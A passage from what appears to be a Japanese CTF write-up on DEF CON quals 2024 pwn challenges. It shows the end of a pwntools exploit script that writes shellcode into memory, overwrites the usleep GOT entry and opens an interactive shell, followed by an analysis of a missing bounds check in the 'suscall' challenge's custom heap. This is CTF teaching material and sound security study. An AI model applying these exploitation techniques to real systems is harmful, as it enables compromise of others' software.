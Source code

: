 ```python
    call rax
"""

child_shellcode += f"""
    mov rdi, 0
    mov rax, 231 # exit_group

    syscall
"""

child_shellcode = asm(child_shellcode)

for i in range(0, len(child_shellcode), 8):
    writev(child_shellcode_dest + i, u64(child_shellcode[i:i+8].ljust(8, b'\0')))

# writev(chall.got['usleep'], bin_base + 0x000000000000101a)
writev(chall.got['usleep'], child_shellcode_dest)

sleep(3)
success("got real world")
stream.sendlineafter(b'Choice:', b'3')

stream.interactive()
```

子プロセスの SECCOMP を潰さないとデバッグが辛いので、LD_PRELOAD とかで潰しておきましょう。

## suscall

[問題リンク](https://github.com/Nautilus-Institute/quals-2024/tree/5e15c5e1a2cb100f86c22e759536327e23af5bf8/suscall)

sus? という名前のバイナリが渡されます。

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

バイナリを真面目に解析すると、独自の FILE 構造体でファイルを管理していて、更にオレオレヒープに脆弱性があります。オレオレヒープはヒープの top アドレスを保持してずらすだけの単純なものです。
用意されているメモリは.bss 領域に取られており、`sbrk` に相当する機能は用意されていません。

関数としては、`galloc` と `realloc` があります。
`galloc` で返される領域は 0 に初期化されます。

ここで、realloc したとき用意されたヒープに残りのメモリが余っているかのチェックが行われていないため、バッファオーバーフローして隣接しているメモリ領域へ書き込みを行うことができます。

```c
undefined * realloc_unchecked(undefined *param_1,size_t cnt,size_t len)

{
  undefined *__dest;

  if (param_1 + cnt == top) {
    // 本当は境界チェックが必要
    top = param_1 + len;
    __dest = param_1;
  }
  else {
    __dest = galloc(len);
    memcpy(__dest,param_1,cnt);
  }
  return __dest;
```